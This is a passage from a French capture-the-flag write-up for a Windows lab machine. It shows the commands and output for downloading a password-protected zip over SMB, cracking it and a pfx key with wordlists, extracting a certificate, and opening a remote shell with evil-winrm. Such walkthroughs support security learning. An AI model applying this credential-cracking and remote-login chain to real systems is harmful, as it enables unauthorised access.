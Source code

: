 L'option `-U` permet de spécifier un utilisateur. Ici on peut mettre n'importe quel utilisateur.

On parcourt les dossiers et on trouve des fichiers LAPS dans HelpDesk et une archive protégée par mdp dans Dev.

On récupère le fichier zip avec la commande mget :
```sh
smb: \Dev\> mget winrm_backup.zip
```

Etant donné, que le zip est protégé par un mot de passe, on peut tenter de le brute force avec fcrackzip :
```sh
sudo fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip

PASSWORD FOUND!!!!: pw == supremelegacy
```

On peut maintenant décompresser de l’archive avec unzip.
A l'intérieur on y trouve une clé privée au format pfx protégé par un mot de passe.

Pour cela on peut utiliser l'outil crackpkcs12 : https://github.com/crackpkcs12/crackpkcs12

On utilise le dictionnaire rockyou. Il s'agit d'un dictionnaire contenant les mots de passe les plus courants, très utilisé dans les CTF.

Crack du mot de passe du fichier pfx :
```sh
crackpkcs12 -d /usr/share/wordlists/rockyou.txt legacyy_dev_auth.pfx

Dictionary attack - starting 5 threads

*********************************************************
Dictionary attack - Thread 2 - Password found: thuglegacy
*********************************************************
```

On peut maintenant extraire le certificat du fichier pfx, qui peut servir pour se connecter : 
```sh
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out certificate.crt
```

### Connexion avec WinRM

Maintenant que nous avons récupérer toutes ces informations, nous pouvons nous connecter avec evil-winrm.
Pour cela, nous avons besoin d'un nom d'utilisateur, du mot de passe, du certificat et de la clé privé :
```sh
evil-winrm -i 10.10.11.152 -S -u Legacyy -p thuglegacy -c certificate.crt -k cert.pem
```
On obtient un shell interactif.
On énumère les dossiers pour trouver le flag utilisateur. On peut utiliser la commande `dir -R` pour les afficher de façon récursive.

```sh
dir -R

  Directory C:\Users\legacyy

Mode            LastWriteTime      Length Name
____             ____________      ______ ____
d-r---     4/16/2022  4:40 PM             Desktop
d-r---    10/25/2021  8:22 AM             Documents
d-r---    9/15/2018   12:19 AM            Downloads
d-r---    9/15/2018   12:19 AM            Favorites
d-r---    9/15/2018   12:19 AM            Links
d-r---    9/15/2018   12:19 AM            Music
d-r---    9/15/2018   12:19 AM            Pictures
d-----    9/15/2018   12:19 AM            Saved Games
```